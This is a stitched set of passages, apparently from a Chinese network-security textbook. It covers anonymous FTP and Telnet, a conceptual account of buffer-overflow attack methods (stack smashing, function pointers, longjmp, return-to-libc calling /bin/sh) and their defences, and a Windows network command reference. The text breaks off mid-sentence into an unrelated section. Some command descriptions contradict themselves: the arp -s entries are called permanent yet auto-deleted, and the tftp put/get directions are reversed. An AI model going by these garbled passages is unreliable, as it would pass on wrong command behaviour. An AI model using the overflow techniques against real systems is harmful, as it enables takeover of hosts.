  - （2）不要将 /etc/passwd 文件的任何加密口令放到匿名 FTP 区 ~/ftp/etc/passwd 中，因为黑客可能取回这些加密口令并试图去破解。也不能对匿名用户设置任何可写文件的权限。即使有时候远程用户认为有这样的目录会觉得比较方便，但同时也可能被黑客用来保存非法文件，包括一些加密材料。

## 6. 远程登录标准 Telnet

### 1）什么是远程登录

Telnet 是 Telecommunication Network Protocol 的英文缩写，中文意思是：远程通信网络协议。它让你坐在自己的计算机前通过 Internet 网络登录到另一台远程计算机上，这台计算机可以在隔壁的房间里，也可以在地球的另一端。当你登录上远程计算机后，你的电脑就仿佛是远程计算机的一个终端，你就可以用自己的计算机直接操纵远程计算机，享受远程计算机本地终端同样的权利。你可在远程计算机启动一个交互式程序，可以检索远程计算机的某个数据库，可以利用远程计算机强大的运算能力对某个方程式求解。这种用 Telnet 方式将用户本地的计算机通过网络连通到远端的计算机上，将用户本地的计算机作为远程主机的一个终端，从而可以使用远程计算机的资源、执行远程计算机的程序就叫做远程登录。需要指出的是，进行远程登录，访问远程资源，必须得到远程计算机的授权，也就是需要作为远程计算机的用户，必须知道远程机器的“用户名”和“口令”。当利用该“用户名”和“口令”向远程计算机注册成功后，就可以在任何地方使用远程计算机了。

### 2）Telnet 的工作原理

与 Internet 信息服务一样，Telnet 采用客户/服务器模式。当你用 Telnet 登录进入远程计算机系统时，你事实上启动了两个程序，一个叫 Telnet 客户程序，它运行在你的本地机上；另一个叫 Telnet 服务器程序，它运行在你要登录的远程计算机上，本地用户只能通过 Telnet 客户程序进行远程访问。

远程登录时，用户通过本地计算机的终端或键盘跟客户程序打交道。用户输入的信息会通过 TCP 连接传送到远程计算机上，由服务器程序接收后，自动执行处理并将输出信息送给客户方。值得注意的是：两方计算机都必须支持 TCP/IP 协议。

本地机上的客户程序要完成如下功能：

- 1. 建立与服务器的 TCP 连接。
- 2. 从键盘上接收你输入的字符。
- 3. 把你输入的字符串变成标准格式并送给远程服务器。
- 4. 从远程服务器接收输出的信息。
- 5. 把该信息显示在你的屏幕上。

远程计算机的“服务”程序通常被称为“精灵”，它平时不声不响地候在远程计算机上，一接到你的请求，它马上活跃起来，并完成如下功能：

- 1. 通知你的计算机，远程计算机已经准备好了。
- 2. 等候你输入命令。
- 3. 对你的命令作出反应（如显示目录内容，或执行某个程序等）。
- 4. 把执行命令的结果送回给你的计算机。
- 5. 重新等候你的命令。

### 3）Telnet 的应用范围

Telnet 最基本的应用就是远程访问，从而共享远程系统的资源，让远程计算机资源为本地服务。但是随着 IT 产业的发展，计算机性能大幅度的提高，现在 Telnet 已经越用越少了。主要有如下三方面原因：

- 第一，个人计算机的性能越来越强，致使在别人的计算机中运行程序要求逐渐减弱。
- 第二，Telnet 服务器的安全性欠佳，因为它允许他人访问其操作系统和文件。
- 第三，Telnet 使用起来不是很容易，特别是对初学者。

但是 Telnet 仍然有很多优点，比如如果你的电脑中缺少什么功能，就可以利用 Telnet 连接到远程计算机上，利用远程计算机上的功能来完成你要做的工作，可以这么说，Internet 上所提供的所有服务，通过 Telnet 都可以使用。

不过 Telnet 的主要用途还是使用远程计算机上所拥有的信息资源，如果你的主要目的是在本地计算机与远程计算机之间传递文件，则使用 FTP 会有效得多，但是匿名 FTP 也需要首先经过远程登录才能进行文件传输。

虽然现在 Telnet 的应用已经大为减少，但是在当今 Internet 网络安全令人堪忧的年代，Telnet 被一些爱好 Hacker 技术的群体所喜爱，他们应用 Telnet 技术或者工具登录他人机器，进行入侵活动，因此我们很有必要了解 Telnet。

### 4）使用 Telnet 的条件

- 1. 客户程序和服务程序
  远程主机必须运行 Telnet 服务程序，本地计算机也需运行 Telnet 客户程序。双方必须有 TCP/IP 协议。
- 2. 机器运行环境要求
  服务程序要求运行在多用户、多进程的系统环境中；用户的本地计算机可以是单用户系统也可以是多用户系统。但双方计算机都必须支持 TCP/IP 协议。
- 3. 域名
  为了与远程主机建立 Telnet 连接，必须知道要与之建立的远程计算机的 Internet 主机域名或 IP 地址。

败，严重的可导致系统崩溃；另一种后果是利用这种漏洞可以执行任意指令，甚至可以取得系统特权。由此而引发了许多种攻击方法。

## 2. 缓冲溢出的危害

缓冲区溢出攻击之所以成为一种常见安全攻击手段，其原因在于缓冲区溢出漏洞太普遍了，并且易于实现。这种攻击可以使得一个匿名的 Internet 用户有机会获得一台主机的部分或全部的控制权！而且，缓冲区溢出成为远程攻击的主要手段，其原因在于缓冲区溢出漏洞给予了攻击者他所想要的一切：植入并且执行攻击代码。被植入的攻击代码以一定的权限运行有缓冲区溢出漏洞的程序，从而得到被攻击主机的控制权。在 1998 年 Lincoln 实验室用来评估入侵检测的 5 种远程攻击中有 3 种是基于社会工程学的信任关系，2 种是缓冲区溢出。而在 1998 年 CERT 的 13 份建议中，有 9 份是与缓冲区溢出有关的，在 1999 年，至少有半数的建议是和缓冲区溢出有关的。在 Bugtraq 的调查中，有 2/3 的被调查者认为缓冲区溢出漏洞是一个很严重的安全问题。

## 3. 缓冲溢出漏洞及攻击

缓冲区溢出攻击的目的在于扰乱具有某些特权运行的程序的功能。这样可以让攻击者取得程序的控制权，如果该程序具有足够的权限，那么整个主机就被控制了。一般而言，攻击者攻击 root 程序，然后执行类似 `exec sh` 的执行代码来获得 root 的 shell。但并不总是这样的，为了达到这个目的，攻击者必须达到如下的两个目标：

- 在程序的地址空间里安排适当的代码；
- 通过适当地初始化寄存器和存储器，让程序跳转到安排好的地址空间执行。

我们根据这两个目标来对缓冲区溢出攻击进行分类。

### 一、在程序的地址空间里安排适当的代码的方法

有两种在被攻击程序地址空间里安排攻击代码的方法：

#### 1、植入法：

攻击者向被攻击的程序输入一个字符串，程序会把这个字符串放到缓冲区里。这个字符串包含的数据是可以在这个被攻击的硬件平台上运行的指令序列。在这里攻击者用被攻击程序的缓冲区来存放攻击代码。具体的方式有以下两种差别：

- (1) 攻击者不必为达到此目的而溢出任何缓冲区。可以找到足够的空间来放置攻击代码。
- (2) 缓冲区可以设在任何地方：堆栈（自动变量）、堆（动态分配的）和静态数据区（初始化或者未初始化的数据）。

#### 2、利用已经存在的代码：

有时候，攻击者想要的代码已经在被攻击的程序中了，攻击者所要做的只是对代码传递一些参数，然后使程序跳转到我们的目标。比如，攻击代码要求执行 `exec("/bin/sh")`，而在 libc 库中的代码执行 `exec(arg)`，其中 `arg` 是一个指向字符串的指针参数，那么攻击者只要把传入的参数指针改向指向 `/bin/sh`，然后跳转到 libc 库中的相应的指令序列即可。

### 二、控制程序转移到攻击代码的方法

所有的这些方法都是在寻求改变程序的执行流程，使之跳转到攻击代码。最基本的就是溢出一个没有边界检查或者其他弱点的缓冲区，这样就扰乱了程序的正常执行顺序。通过溢出一个缓冲区，攻击者可以用近乎暴力的方法改写相邻的程序空间而直接跳过系统的检查。这里分类的基准是攻击者所寻求的缓冲区溢出的程序空间类型。原则上可以是任意的空间。比如，最初的 Morris Worm（莫里斯蠕虫）就是使用了 fingerd 程序的缓冲区溢出，扰乱 fingerd 要执行的文件的名字。实际上，许多的缓冲区溢出是用暴力的方法来寻求改变程序指针的。这类程序的不同的地方就是程序空间的突破和内存空间的定位不同。一般来说，控制程序转移到攻击代码的方法有以下几种：

- 1、激活记录（Activation Records）：
每当一个函数调用发生时，调用者会在堆栈中留下一个激活记录，它包含了函数结束时返回的地址。攻击者通过溢出这些自动变量，使这个返回地址指向攻击代码，通过改变程序的返回地址，当函数调用结束时，程序就跳转到攻击者设定的地址，而不是原先的地址。这类的缓冲区溢出被称为“stack smashing attack”，是目前常用的缓冲区溢出攻击方式。

- 2、函数指针（Function Pointers）：
`void *foo()` 声明了一个返回值为 void 的函数指针变量 foo。函数指针可以用来定位任何地址空间，所以攻击者只需在任何空间内的函数指针附近找到一个能够溢出的缓冲区，然后溢出这个缓冲区来改变函数指针。在某一时刻，当程序通过函数指针调用函数时，程序的流程就按攻击者的意图实现了！它的一个攻击范例就是在 Linux 系统下的 superprobe 程序。

- 3、长跳转缓冲区（Longjmp buffers）：
在 C 语言中包含了一个简单的检验/恢复系统，称为 setjmp/longjmp。意思是在检验点设定 `setjmp buffer`，用 `longjmp(buffer)` 来恢复检验点。然而，如果攻击者能够进入缓冲区的空间，那么 `longjmp(buffer)` 实际上是跳转到攻击者的代码。像函数指针一样，longjmp 缓冲区能够指向任何地方，所以攻击者所要做的就是找到一个可供溢出的缓冲区。一个典型的例子就是 Perl 5.003，攻击者首先进入用来恢复缓冲区溢出的 longjmp 缓冲区，然后诱导进入恢复模式，这样就使 Perl 的解释器跳转到攻击代码上了！

### 三、综合代码植入和流程控制技术

最简单和常见的缓冲区溢出攻击类型就是在一个字符串里综合了代码植入和激活记录。攻击者定位一个可供溢出的自动变量，然后向程序传递一个很大的字符串，在引发缓冲区溢出改变激活记录的同时植入了代码。这个是由 Levy 指出的攻击的模板。因为 C 在习惯上只为用户和参数开辟很小的缓冲区，因此这种漏洞攻击的实例不在少数。

代码植入和缓冲区溢出不一定要在一次动作内完成。攻击者可以在一个缓冲区内放置代码，这时不能溢出缓冲区。然后，攻击者通过溢出另外一个缓冲区来转移程序的指针。这种方法一般用来解决可供溢出的缓冲区不够大（不能放下全部的代码）的情况。如果攻击者试图使用已经常驻的代码而不是从外部植入代码，他们通常必须把代码作为参数。举例来说，在 libc（几乎所有的 C 程序都要它来连接）中的部分代码段会执行 `exec something)`，其中 something 就是参数。攻击者使用缓冲区溢出改变程序的参数，然后利用另一个缓冲区溢出使程序指针指向 libc 中的特定的代码段。

## 四、缓冲区溢出的保护方法

目前有四种基本的方法保护缓冲区免受缓冲区溢出的攻击和影响。

### 一、编写正确的代码

编写正确的代码是一件非常有意义但耗时的工作，特别像编写 C 语言那种具有容易出错倾向的程序（如：字符串的零结尾），这种风格是由于追求性能而忽视正确性的传统引起的。尽管花了很长的时间使得人们知道了如何编写安全的程序组，但具有安全漏洞的程序依旧出现。因此人们开发了一些工具和技术来帮助经验不足的程序员编写安全正确的程序。最简单的方法就是用 grep 来搜索源代码中容易产生漏洞的库的调用，比如对 strcpy 和 sprintf 的调用，这两个函数都没有检查输入参数的长度。事实上各个版本 C 的标准库均有这样的问题存在。为了寻找一些常见的诸如缓冲区溢出和操作系统竞争条件等漏洞，一些代码检查小组检查了很多的代码。然而依然有漏网之鱼存在。尽管采用了 strncpy 和 snprintf 这些替代函数来防止缓冲区溢出的发生，但是由于编写代码的问题，仍旧会有这种情况发生。比如 lprm 程序就是最好的例子，虽然它通过了代码的安全检查，但仍然有缓冲区溢出的问题存在。为了对付这些问题，人们开发了一些高级的查错工具，如 Fault Injection 等。这些工具的目的在于通过人为随机地产生一些缓冲区溢出来寻找代码的安全漏洞。还有一些静态分析工具用于侦测缓冲区溢出的存在。

虽然这些工具可以帮助程序员开发更安全的程序，但是由于 C 语言的特点，这些工具不可能找出所有的缓冲区溢出漏洞。所以，侦错技术只能用来减少缓冲区溢出的可能，并不能完全地消除它的存在，除非程序员能保证他的程序万无一失。

### 二、非执行的缓冲区

通过使被攻击程序的数据段地址空间不可执行，从而使得攻击者不可能执行被植入到被攻击程序输入缓冲区的代码，这种技术被称为非执行的缓冲区技术。事实上，很多老的 Unix 系统都是这样设计的。但是近来的 Unix 和 MS Windows 系统为实现更好的性能和功能，往往在数据段中动态地放入可执行的代码。所以为了保持程序的兼容性不可能使得所有程序的数据段不可执行。但是我们可以设定堆栈数据段不可执行，这样就可以最大限度地保证了程序的兼容性。Linux 和 Solaris 都发布了有关这方面的内核补丁。因为几乎没有任何合法的程序会在堆栈中存放代码，这种做法几乎不产生任何兼容性问题，除了在 Linux 中的两个特例，这时可执行的代码必须被放入堆栈中：

- 1、信号传递
Linux 通过向进程堆栈释放代码，然后引发中断来执行在堆栈中的代码进而实现向进程发送 Unix 信号。非执行缓冲区的补丁在发送信号的时候是允许缓冲区可执行的。

- 2、GCC 的在线重用
研究发现 gcc 在堆栈区里放置了可执行的代码以便在线重用。然而关闭这个功能并不产生任何问题，只有部分功能似乎不能使用。非执行堆栈的保护可以有效地对付把代码植入自动变量的缓冲区溢出攻击，而对于其他形式的攻击则没有效果。通过引用一个驻留的程序的指针，就可以跳过这种保护措施。其他的攻击可以采用把代码植入堆或者静态数据段中来跳过保护。

### 三、数组边界检查

植入代码引起缓冲区溢出是一个方面，扰乱程序的执行流程是另一个方面。不像非执行缓冲区保护，数组边界检查完全没有了缓冲区溢出的产生和攻击。这样只要数组不能被溢出，溢出攻击也就无从谈起。为了实现数组边界检查，则所有的对数组的读写操作都应当被检查，以确保对数组的操作在正确的范围内。最直接的方法是检查所有的数组操作，但是通常可以采用一些优化的技术来减少检查的次数。目前有以下儿的几种检查方法：

- 1、Compaq C 编译器
Compaq 公司为 Alpha CPU 开发的 C 编译器支持有限度的边界检查（使用 `-check bounds` 参数）。这些限制是：只有显式的数组引用才被检查，比如 `a[3]` 会被检查，而 `*(a + 3)` 则不会。

由于所有的 C 数组在传送的时候是指针传递的，所以传递给函数的数组不会被检查。带有危险性的库函数如 strcpy 不会在编译的时候进行边界检查，即便是指定了边界检查。在 C 语言中利用指针进行数组操作和传递是非常频繁的，因此这种局限性是非常严重的。通常这种边界检查用来程序的查错，而且不能保证不发生缓冲区溢出的漏洞。

- 2、Jones & Kelly：C 的数组边界检查
Richard Jones 和 Paul Kelly 开发了一个 gcc 的补丁，用来实现对 C 程序完全的数组边界检查。由于没有改变指针的含义，所以被编译的程序和其他的 gcc 模块具有很好的兼容性。更进一步的是，他们由此从没有指针的表达式中导出了一个“基”指针，然后通过检查这个基指针来侦测表达式的结果是否在容许的范围之内。当然，这样付出的性能上的代价是巨大的；对于一个频繁使用指针的程序，如向量乘法，将由于指针的频繁使用而使速度慢 30 倍。这个编译器目前还很不成熟，一些复杂的程序（如 elm）还不能在这个上面编译、执行通过。然而，在它的一个更新版本之下，它至少能编译执行 SSH 软件的加密软件包，但其实现的性能要下降 12 倍。

- 3、Purify：存储器存取检查
Purify 是 C 程序调试时查看存储器使用的工具而不是专用的安全工具。Purify 使用“目标代码插入”技术来检查所有的存储器存取。通过用 Purify 连接工具连接，可执行代码在执行的时候带来的性能上的损失要下降 3 - 5 倍。

- 4、类型安全语言
所有的缓冲区溢出漏洞都源于 C 语言的类型不安全。如果只有类型安全的操作才可以被允许执行，这样就不可能出现对变量的强制操作。如果作为新手，可以推荐使用具有类型安全的语言如 Java 和 ML。
但是作为 Java 执行平台的 Java 虚拟机是 C 程序，因此攻击 JVM 的一条途径是使 JVM 的缓冲区溢出。因此在系统中采用缓冲区溢出防卫技术来使用强制类型安全的语言可以收到意想不到的效果。

### 四、程序指针完整性检查

程序指针完整性检查和边界检查有略微的不同。与防止程序指针被改变不同，程序指针完整性检查在程序指针被引用之前检测到它的改变。因此，即使一个攻击者成功地改变了程序的指针，由于系统事先检测到了指针的改变，因此这个指针将不会被使用。与数组边界检查相比，这种方法不能解决所有的缓冲区溢出问题；采用其他的缓冲区溢出方法就可以避免这种检测。但是这种方法在性能上有很大的优势，而且兼容性也很好。

- 1、手写的堆栈监测
Snarkii 为 FreeBSD 开发了一套定制的能通过监测 CPU 堆栈来确定缓冲区溢出的 libc。这个应用完全用手工汇编写的，而且是保护 libc 中的当前有效记录函数。这个应用达到了设计要求，对于基于 libc 库函数的攻击具有很好的防卫，但是不能防卫其它方式的攻击。

- 2、堆栈保护
堆栈保护是一种提供程序指针完整性检查的编译器技术，通过检查函数活动记录中的返回地址来实现。堆栈保护作为 gcc 的一个小的补丁，在每个函数中，加入了函数建立和销毁的代码。加入的函数建立代码实际上在堆栈中函数返回地址后面加了一些附加的字节。而在函数返回时，首先检查这个附加的字节是否被改动过，如果发生过缓冲区溢出的攻击，那么这种攻击很容易在函数返回前被检测到。但是，如果攻击者预见到这些附加字节的存在，并且能在溢出过程中同样地制造它们，那么它就能成功地跳过堆栈保护的检测。通常，我们有如下两种方案对付这种欺骗。

- （1）终止符号
利用在 C 语言中的终止符号如 0 (nul), CR, LF, -1 (EOF) 等。这些符号不能在常用的字符串函数中使用，因为这些函数一旦遇到这些终止符号，就结束函数过程了。

- （2）随机符号
利用一个在函数调用时产生的一个 32 位的随机数来实现保密，使得攻击者不可能猜测到附加字节的内容。而且，每次调用附加字节的内容都在改变，也无法预测。通过检查堆栈的完整性的堆栈保护法是从 Synthetix 方法演变来的。Synthetix 方法通过用准不变量来确保特定变量的正确性。这些特定的变量的改变是程序实现能预知的，而且只能在满足一定的条件才能可以改变。这种变量我们称为准不变量。Synthetix 开发了一些工具用来保护这些变量。攻击者通过缓冲区溢出而产生的改变可以被系统当做非法的动作。在某些极端的情况下，这些准不变量有可能被非法改变，这时需要堆栈保护来提供更完善的保护了。

实验的数据表明，堆栈保护对于各种系统的缓冲区溢出攻击都有很好的保护作用，并能保持较好的兼容性和系统性能。分析表明，堆栈保护能有效抵御现在的和将来的基于堆栈的攻击。

堆栈保护版本的 Red Hat Linux 5.1 已经在各种系统上运行了多年，包括个人的笔记本电脑和工作组文件服务器。

### 3、指针保护

在堆栈保护设计的时候，冲击堆栈构成了缓冲区溢出攻击的常见的一种形式。有人推测存在一种模板来构成这些攻击（在 1996 年的时候）。从此，很多简单的漏洞被发现，实施和补丁后，很多攻击者开始用更一般的方法实施缓冲区溢出攻击。指针保护是堆栈保护针对这种情况的一个推广。通过在所有的代码指针之后放置附加字节来检验指针在被调用之前的合法性，如果检验失败，会发出报警信号和退出程序的执行，就如同在堆栈保护中的行为一样。这种方案有两点需要注意：

- (1) 附加字节的定位
附加字节的空间是在被保护的变量被分配的时候分配的，同时在被保护字节初始化过程中被初始化。这样就带来了问题：为了保持兼容性我们不想改变被保护变量的大小，因此我们不能简单地在变量的结构定义中加入附加字节。还有，对各种类型也有不同附加字节数目。

- (2) 检查附加字节
每次程序指针被引用的时候都要检查附加字节的完整性。这个也存在问题，因为“从存取器读”在编译器中没有语义，编译器更关心指针的使用，而各种优化算法倾向于从存储器中读入变量。还有随着变量类型的不同，读入的方法也各自不同。到目前为止只有很少一部分使用非指针变量的攻击能逃脱指针保护的检测。但是，可以通过在编译器上强制对某一变量加入附加字节来实现检测，这时需要程序员自己手工加入相应的保护了。

## 常用网络相关命令解释

### Arp

显示和修改“地址解析协议” ARP 所使用的以太网的 IP 或令牌环物理地址翻译表。该命令只有在安装了 TCP/IP 协议之后才可用。

```
arp -a inet_addr -N if_addr
arp -d inet_addr if_addr
arp -s inet_addr ether_addr if_addr
```

参数：

- -a 通过询问 TCP/IP 显示当前 ARP 项。如果指定了 inet_addr，则只显示指定计算机的 IP 和物理地址。
- -g 与 -a 相同。
- inet_addr 以加点的十进制标记指定 IP 地址。
- -N 显示由 if_addr 指定的网络接口 ARP 项。
- if_addr 指定需要修改其地址转换表接口的 IP 地址（如果有的话）。如果不存在，将使用第一个可适用的接口。
- -d 删除由 inet_addr 指定的项。
- -s 在 ARP 缓存中添加项，将 IP 地址 inet_addr 和物理地址 ether_addr 关联。物理地址由以连字符分隔的 6 个十六进制字节给定。使用带点的十进制标记指定 IP 地址。项是永久性的，即在超时到期后自动从缓存删除。
- ether_addr 指定物理地址。

### Finger

在运行 Finger 服务的指定系统上显示有关用户的信息，根据远程系统输出不同的变量，该命令只有在安装了 TCP/IP 协议之后才可用。

```
finger -l user @computer ...
```

- -l 以长列表格式显示信息。
- User 指定要获得相关信息的用户。省略用户参数以显示指定计算机上所有用户的信息。
- @computer 指定远程计算机。

### Ftp

将文件传送到正在运行的 Ftp 服务的远程计算机或从正在运行 Ftp 服务的远程计算机传送文件（有时称作 daemon）。Ftp 可以交互使用。单击“相关主题”列表中的“Ftp 命令”以获得可用的“Ftp”子命令描述。该命令只有在安装了 TCP/IP 协议之后才可用。Ftp 是一种服务，一旦启动，将创建在其中可以使用 Ftp 命令的子环境，通过键入 Quit 子命令可以从子环境返回到 Windows 2000 命令提示符。当 Ftp 子环境运行时，它由 Ftp 命令提示符代表。

```
ftp -v -n -i -d -g -s filename -a -w windowsize computer
```

- -v 禁止显示远程服务器响应。
- -n 禁止自动登录到初始连接。
- -i 多个文件传送时关闭交互提示。
- -d 启用调试，显示在客户端和服务器之间传递的所有 FTP 命令。
- -g 禁用文件名组，它允许在本地文件和路径名中使用通配符字符（* 和 ?）(请参阅联机“命令参考”中的 Glob 命令)。
- -s filename 指定包含 FTP 命令的文本文件；当 FTP 启动后，这些命令将自动运行。该参数中不允许有空格，使用该开关而不是重定向 >。
- -a 在捆绑数据连接时使用任何本地接口。
- -w windowsize 替代默认大小为 4096 的传送缓冲区。
- computer 指定要连接到远程计算机的计算机名或 IP 地址。如果指定，计算机必须是行的最后一个参数。

### TCP 套接字解释

| 状态 | 意义 |
| --- | --- |
| CLOSED | 没有使用这个套接字 |
| LISTEN | 套接字正在监听入境连接 |
| SYN - SENT | 套接字正在试图主动建立连接 |
| SYN - RECEIVED | 正在处于连接的初始同步状态 |
| ESTABLISHED | 连接已建立 |
| CLOSE - WAIT | 远程套接字已经关闭：正在等待关闭这个套接字 |
| FIN - WAIT - 1 | 套接字已关闭，正在关闭连接 |
| CLOSING | 套接字已关闭，远程套接字正在关闭，暂时挂起关闭确认 |
| LAST - ACK | 远程套接字已关闭，正在等待本地套接字确认 |

| 套接字状态 | 套接字的关闭确认 |
|---|---|
| FIN_WAIT_2 | 套接字已关闭，正在等待远程套接字关闭 |
| TIME_WAIT | 这个套接字已经关闭，正在等待远程套接字的关闭传送 |

## Traceroute/Tracert 命令

traceroute/tracert 命令用于跟踪数据包到达目标机器的路由，使用 IP 数据包的 time-to-live (TTL) 域，在数据包到达远程主机前所经过的每一个网关引发一个 ICMP TIME_EXCEEDED 响应。

## Nbtstat

该诊断命令使用 NBT (TCP/IP 上的 NetBIOS) 显示协议统计和当前 TCP/IP 连接。该命令只有在安装了 TCP/IP 协议之后才可用。

```
nbtstat -a remotename -A IP address -c -n -R -r -S -s interval
```

### 参数

- `-a remotename` 使用远程计算机的名称列出其名称表。
- `-A IP address` 使用远程计算机的 IP 地址并列出名称表。
- `-c` 给定每个名称的 IP 地址并列出 NetBIOS 名称缓存的内容。
- `-n` 列出本地 NetBIOS 名称。“已注册”表明该名称已被广播 Bnode 或者 WINS (其他节点类型) 注册。
- `-R` 清除 NetBIOS 名称缓存中的所有名称后，重新装入 Lmhosts 文件。
- `-r` 列出 Windows 网络名称解析的名称解析统计。在配置使用 WINS 的 Windows 2000 计算机上，此选项返回要通过广播或 WINS 来解析和注册的名称数。
- `-S` 显示客户端和服务器会话，只通过 IP 地址列出远程计算机。
- `-s` 显示客户端和服务器会话。尝试将远程计算机 IP 地址转换成使用主机文件的名称。

### Interval

重新显示选中的统计，在每个显示之间暂停 Interval 秒。按 Ctrl + C 停止重新显示统计信息。如果省略该参数，Nbtstat 打印一次当前的配置信息。

## Netstat

显示协议统计和当前的 TCP/IP 网络连接。该命令只有在安装了 TCP/IP 协议后才可以使 用。

```
netstat -a -e -n -s -p protocol -r interval
```

### 参数：

- `-a` 显示所有连接和侦听端口。服务器连接通常不显示。
- `-e` 显示以太网统计。该参数可以与 `-s` 选项结合使用。
- `-n` 以数字格式显示地址和端口号（而不是尝试查找名称）。
- `-s` 显示每个协议的统计。默认情况下，显示 TCP、UDP、ICMP 和 IP 的统计。`-p` 选项可以用来指定默认的子集。
- `-p protocol` 显示由 protocol 指定的协议的连接；protocol 可以是 tcp 或 udp。如果与 `-s` 选项一同使用显示每个协议的统计，protocol 可以是 tcp、udp、icmp 或 ip。
- `-r` 显示路由表的内容。

### Interval

重新显示所选的统计，在每次显示之间暂停 interval 秒。按 Ctrl + C 停止重新显示统计。如果省略该参数，Nbtstat 将打印一次当前的配置信息。

## Ping

验证与远程计算机的连接。该命令只有在安装了 TCP/IP 协议后才可以使用。

```
ping -t -a -n count -l length -f -i ttl -v tos
-r count -s count -j computer-list | -k computer-list -w
timeout destination-list
```

### 参数：

- `-t` Ping 指定的计算机直到中断。
- `-a` 将地址解析为计算机名。
- `-n count` 发送 count 指定的 ECHO 数据包数。默认值为 4。
- `-l length` 发送包含由 length 指定的数据量的 ECHO 数据包。默认为 32 字节; 最大值是 65 527。
- `-f` 在数据包中发送“不要分段”标志。数据包就不会被路由上的网关分段。
- `-i ttl` 将“生存时间”字段设置为 ttl 指定的值。
- `-v tos` 将“服务类型”字段设置为 tos 指定的值。
- `-r count` 在“记录路由”字段中记录传出和返回数据包的路由。count 可以指定最少 1 台, 最多 9 台计算机。
- `-s count` 指定 count 指定的跃点数的时间戳。`-j computer-list` 利用 computer-list 指定的计算机列表路由数据包。连续计算机可以被中间网关分隔 (路由稀疏源) IP 允许的最大数量为 9。
- `-k computer-list` 利用 computer-list 指定的计算机列表路由数据包。连续计算机不能被中间网关分隔 (路由严格源) IP 允许的最大数量为 9。
- `-w timeout` 指定超时间隔, 单位为毫秒。
- `destination-list` 指定要 Ping 的远程计算机。

## Rcp

在 Windows 2000 计算机和运行远程外壳端口监控程序 rshd 的系统之间复制文件。rcp 命令是一个连接命令, 从 Windows 2000 计算机发出该命令时, 也可以用于其他传输在两台运行 rshd 的计算机之间复制文件。rshd 端口监控程序可以在 UNIX 计算机上使用, 而在 Windows 2000 上不能使用, 所以 Windows 2000 计算机仅可以作为发出命令的系统参与。远程计算机必须也通过运行 rshd 提供 rcp 实用程序。

```
rcp -a | -b -h -r source1 source2... sourceN destination
```

### 参数：

- `-a` 指定 ASCII 传输模式。此模式在传出文件上将回车/换行符转换为回车符, 在传入文件中将换行符转换为回车/换行符。该模式为默认的传输模式。
- `-b` 指定二进制图像传输模式。没有执行回车/换行符转换。
- `-h` 传输 Windows 2000 计算机上标记为隐藏属性的源文件。如果没有该选项, 在 rcp 命令行上指定隐藏文件的效果与文件不存在一样。
- `-r` 将源的所有子目录内容递归复制到目标。source 和 destination 都必须是目录, 虽然即使源不是目录, 使用 `-r` 也能够工作, 但将没有递归。

### Source 和 Destination

格式必须为 computer.user filename。如果忽略了 computer.user 部分, 计算机将假定为本地计算机。如果省略了 .user 部分, 将使用当前登录的 Windows 2000 用户名。如果使用了完全合格的计算机名, 其中包含句点 . 分隔符, 则必须包含 .user 。否则, 计算机名的最后部分将解释为用户名。如果指定了多个源文件, 则 destination 必须是目录。

如果文件名不是以 UNIX 的正斜杠 / 或 Windows 2000 系统的反斜杠 \ 打头，则假定相对于当前的工作目录。在 Windows 2000 中，这是发出命令的目录。在远程系统中，这是远程用户的登录目录。句点 . 表示当前的目录。在远程路径中使用转义字符 (\、" 或 ')，以便在远程计算机中使用通配符。

## Rexec

在运行 REXEC 服务的远程计算机上运行命令。rexec 命令在执行指定命令前，验证远程计算机上的用户名，只有安装了 TCP/IP 协议后才可以使用该命令。

```
rexec computer -l username -n command
```

### 参数：

- `-computer` 指定要运行 command 的远程计算机。
- `-l username` 指定远程计算机上的用户名。
- `-n` 将 rexec 的输入重定向到 NULL。
- `-command` 指定要运行的命令。

## Route

控制网络路由表。该命令只有在安装了 TCP/IP 协议后才可以使用。

```
route -f -p command destination mask subnetmask gateway metric costmetric
```

### 参数：

- `-f` 清除所有网关入口的路由表。如果该参数与某个命令组合使用，路由表将在运行命令前清除。
- `-p` 该参数与 add 命令一起使用时，将使路由在系统引导程序之间持久存在。默认情况下，系统重新启动时不保留路由。与 print 命令一起使用时，显示已注册的持久路由列表。忽略其他所有总是影响相应持久路由的命令。

command 指定下列的一个命令：

- 命令 目的
- print 打印路由
- add 添加路由
- delete 删除路由
- change 更改现存路由

destination 指定发送 command 的计算机。

mask subnetmask 指定与该路由条目关联的子网掩码。如果没有指定，将使用 255.255.255.255。

gateway 指定网关。

名为 Networks 的网络数据库文件和名为 Hosts 的计算机名数据库文件中均引用全部 destination 或 gateway 使用的符号名称。如果命令是 print 或 delete，目标和网关还可以使用通配符，也可以省略网关参数。

metric costmetric 指派整数跃点数（从 1 到 9999）在计算最快速、最可靠和（或）最便宜的路由时使用。

## Rsh

在运行 Rsh 服务的远程计算机上运行命令。该命令只有在安装了 TCP/IP 协议后才可以使用。

```
rsh computer -l username -n command
```

### 参数：

computer 指定运行 command 的远程计算机。

- `-l username` 指定远程计算机上使用的用户名。如果省略，则使用登录的用户名。
- `-n` 将 rsh 的输入重定向到 NULL。

command 指定要运行的命令。

## Tftp

将文件传输到正在运行 Tftp 服务的远程计算机或从正在运行 Tftp 服务的远程计算机传输文件。该命令只有在安装了 TCP/IP 协议后才可以使用。

```
tftp -i computer get | put source destination
```

### 参数：

- `-i` 指定二进制图像传送模式（也称为“八位字节”）。在二进制图像模式中，文件一个字节接一个字节地逐字移动。在传送二进制文件时使用该模式。

如果省略了 `-i`，文件将以 ASCII 模式传送。这是默认的传送模式。此模式将 EOL 字符转换为 UNIX 的回车符和个人计算机的回车符/换行符。在传送文本文件时应使用此模式。如果文件传送成功，将显示数据传输率。

computer 指定本地或远程计算机。

put 将本地计算机上的文件 destination 传送到远程计算机上的文件 source。

get 将远程计算机上的文件 destination 传送到本地计算机上的文件 source。

如果将本地计算机上的文件 file-two 传送到远程计算机上的文件 file-one，请指定 put；

如果将远程计算机上的文件 file-two 传送到远程计算机上的文件 file-one，请指定 get。

因为 Tftp 协议不支持用户身份验证，所以用户必须登录，并且文件在远程计算机上必须可以写入。

source 指定要传送的文件。如果本地文件指定为 `-`，则远程文件在 stdout 上打印出来（如果获取），或从 stdin（如果放置）读取。

destination 指定将文件传送到的位置。如果省略了 destination，将假定与 source 同名。

## Tracert

